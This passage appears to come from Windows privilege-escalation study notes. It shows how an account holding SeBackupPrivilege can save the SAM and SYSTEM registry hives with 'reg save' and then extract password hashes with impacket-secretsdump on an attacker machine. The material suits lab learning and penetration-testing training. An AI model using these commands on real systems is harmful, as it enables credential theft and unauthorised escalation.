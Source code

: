 ### Backup Privilege

If `SeBackupPrivilege` is available:

```powershell
reg save HKLM\SAM C:\Users\Public\sam.save
reg save HKLM\SYSTEM C:\Users\Public\system.save
```

Then on attacker box:
```bash
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

---

This document is designed as a foundational resource for Windows privilege escalation. Continue to adapt and expand these notes as you progress through labs and real-world scenarios.
